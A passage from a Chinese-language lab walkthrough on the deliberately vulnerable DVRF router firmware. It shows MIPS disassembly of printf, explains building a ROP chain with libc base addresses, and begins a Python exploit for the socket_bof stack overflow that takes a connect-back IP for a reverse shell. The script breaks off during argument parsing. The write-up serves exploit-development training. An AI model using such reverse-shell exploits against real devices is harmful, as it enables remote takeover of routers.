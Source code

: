 ```
   0x766fc9e8 &lt;printf+8&gt;:   addu    gp,gp,t9
   0x766fc9ec &lt;printf+12&gt;:  addiu   sp,sp,-40
   0x766fc9f0 &lt;printf+16&gt;:  sw  ra,32(sp)
   0x766fc9f4 &lt;printf+20&gt;:  sw  gp,16(sp)
   0x766fc9f8 &lt;printf+24&gt;:  lw  v0,-30788(gp)

**[Radare2]**

   [0x000179e0]&gt; pd
   / (fcn) sym.printf 88
   |           0x000179e0      07001c3c       lui gp, 7    // Same Instructions as seen in Radare2
   |           0x000179e4      f0bb9c27       addiu gp, gp, -0x4410
   |           0x000179e8      21e09903       addu gp, gp, t9
   |           0x000179ec      d8ffbd27       addiu sp, sp, -0x28
   |           0x000179f0      2000bfaf       sw ra, 0x20(sp)
   |           0x000179f4      1000bcaf       sw gp, 0x10(sp)
   |           0x000179f8      bc87828f       lw v0, -0x7844(gp)
```

一旦我们建立好了自己的ROP链，所需要做的就是替换可以通过cat /proc/[pid]/maps找到的libc地址。在这里，我们就需要用到基地址。如果ROP链可以在QEMU中正常工作，那么就有99%的可能性能在实际的设备上正常工作。

## 5. DVRFv0.3 socket_bof解决方案

在我设计DVRF项目的过程中，我就深刻体会到最常见的漏洞就是基于栈的缓冲区溢出漏洞，如果你不熟悉ASM，可能理解起来会有一定的难度。<br>
因为我仍然在学习MIPS汇编，下面的漏洞利用代码大约花费了8小时才完成，然而这个漏洞利用是在QEMU中实现的，随后在Linksys设备上进行。

```
import socket, sys , base64, struct, string, time
from getopt import getopt as GetOpt, GetoptError

def usage():
    print ""
    print "Socket_bof solution for DVRF_v03"
    print "By: Elvis Collado [b1ack0wl]"
    print ""
    print "Usage: %s -s source.ip -d dst.ip -p dst.port" % sys.argv[0]
    print ""
    print "t-s                     Connect back IP"
    print "t-d                     Destination IP of Socket Listener"
    print "t-p                     Destination Port that socket_bof is listening on"
    print "t-h                     Print this Help Menu"
    print ""
    sys.exit(1)

try:
    (opts, args) = GetOpt(sys.argv[1:], 's:d:p:h')
except GetoptError, e:
    usage()
for opt, arg in opts:
    if opt == "-s":
        connectback_ip = arg.split(".")
        for a in connectback_ip:
            if int(a) == 0:
                print "IP cannot have NULL Bytes :("
                sys.exit(1)

        IP_1= struct.pack("&lt;B",int(connectback_ip[0]))
        IP_2= struct.pack("&lt;B",int(connectback_ip[1]))
        IP_3= struct.pack("&lt;B",int(connectback_ip[2]))
        IP_4= struct.pack("&lt;B",int(connectback_ip[3]))
    elif opt == "-d":
        host = arg
    elif opt == "-p":
```